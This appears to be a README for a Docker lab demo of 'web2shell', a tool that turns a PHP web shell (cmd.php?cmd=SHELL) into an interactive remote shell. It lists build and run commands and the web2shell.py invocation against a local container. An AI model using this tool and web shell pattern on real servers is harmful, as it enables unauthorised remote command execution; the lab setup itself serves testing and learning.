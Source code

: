 # web2shell docker demo

1. Build the docker image (`docker build . --tag webshell`)
2. Run the image (`docker run -it -p 8080:80 webshell`)
3. Use web2shell to secure a remote connection on the docker0 interface (`python3 web2shell.py  --url http://127.0.0.1:8080/cmd.php?cmd=SHELL --interface docker0`)

Note: This Docker container only has `python`, `perl`, and `php` binaries.
